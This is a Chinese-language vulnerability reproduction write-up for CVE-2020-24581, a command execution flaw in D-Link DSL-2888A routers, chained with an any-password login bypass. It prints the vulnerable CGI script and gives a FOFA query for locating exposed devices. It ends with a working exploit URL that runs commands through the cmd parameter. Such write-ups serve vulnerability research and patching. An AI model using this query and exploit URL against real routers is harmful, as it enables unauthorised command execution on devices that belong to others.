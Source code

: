 # D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](image/link-1.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```sh
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js** 

```js
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},

```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了 

所以EXP为:

```
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=peiqi&cmd=whoami
```

![](image/link-4.png)